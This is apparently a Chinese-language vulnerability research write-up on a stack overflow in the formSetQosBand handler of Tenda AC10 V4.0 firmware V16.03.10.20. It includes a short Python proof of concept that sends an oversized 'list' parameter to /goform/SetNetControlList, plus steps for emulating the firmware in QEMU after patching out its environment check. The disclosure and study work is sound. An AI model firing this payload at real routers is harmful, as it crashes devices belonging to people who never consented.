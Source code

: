 # Vulnerability Discovery

## 记: IoT路由固件漏洞挖掘

### 产品

* Tenda AC10
* 固件下载地址: [https://www.tenda.com.cn/download/detail-3684.html](https://www.tenda.com.cn/download/detail-3684.html)
* 硬件版本: V4.0
* 软件版本: V16.03.10.20
* 说明：此固件仅适用于AC10 v4型号的机器升级

### 影响版本

V16.03.10.20

### 漏洞细节

Tenda AC10 V16.03.10.20固件在**`formSetQosBand`**函数中存在**堆栈溢出漏洞**。

<figure><img src=".gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

从POST请求接收“list”参数赋值给变量s，该变量作为参数传递到函数**`set_qosMb_list`**中。在函数**`set_qosMb_list`**中，变量a1被传递给s，后者随后被分配给v9变量，该变量固定为256字节。然而，由于用户可以控制列表的输入，因此语句`strcpy（v9,s)`可能导致缓冲区溢出。用户提供的列表可能超过v9变量的容量，从而触发此安全漏洞。

<figure><img src=".gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

### Exp

```
import requests
from pwn import*
​
ip = "***"  #仿真IP地址
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000
​
data = {"list": payload} #溢出数据传递给list
res = requests.post(url, data=data)
```

#### 仿真

参考文章：

[https://blog.csdn.net/qq\_45894840/article/details/136514555](https://blog.csdn.net/qq\_45894840/article/details/136514555)

工具：

Binwalk、IDA 7.6 Pro、QEMU

详细过程：

首先使用Binwalk提取固件文件系统，提取后会在当前目录生成一个文件夹，进入文件夹，在squashfs-root目录下是路由器主要运行的一些东西

```
binwalk -Me 固件名称.bin
```





<figure><img src=".gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

需要分析的固件在bin目录下，bin/httpd这个程序就是路由器主要运行的固件，使用file命令可以得知路由器固件相关的信息，比如这次的路由二进制文件是mips指令架构，32位ELF

<figure><img src=".gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

尝试使用qemu运行，失败，权限不足，改用sudo以后发现路由器运行输出welcome以后卡住

<figure><img src=".gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

这是因为路由器检测环境功能的存在，接下来使用IDA破解路由器检测环境

#### IDA破解路由器检测环境

思路就是找到验证的代码nop掉验证的指令，patch二进制文件就可以，详细过程参考图片如下

先找到相关的代码，这里直接搜索字符串查看其xref

<figure><img src=".gitbook/assets/6 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src=".gitbook/assets/8 (2).png" alt=""><figcaption></figcaption></figure>

定位到main函数，找到相关的代码，发现是一个while循环，通过了if的验证才能跳出：

<figure><img src=".gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

对应的汇编如下，也就是说需要nop掉红框中的两个跳转

<figure><img src=".gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

在IDA中Patch Bytes（Edit->Patch program->change byte）将前四字节修改为00，就能换成nop指令了

<figure><img src=".gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

完成以后打补丁（Edit->Patch program->Apply patches to input file）

替换文件以后需要注意给文件赋权限：

```
chmod 777 httpd
```

<figure><img src=".gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

最后仿真（添加新的网卡，这里一开始我没有添加正确一直创建soccket报错卡了很久啊啊啊）

<figure><img src=".gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

```
（sudo）：
brctl addbr br0
brctl addif br0 eth0 #注意！！！这里网卡绑自己虚拟机的eths
ifconfig br0 up
dhclient br0 
```

最后执行Poc成功触发漏洞：

<figure><img src=".gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>
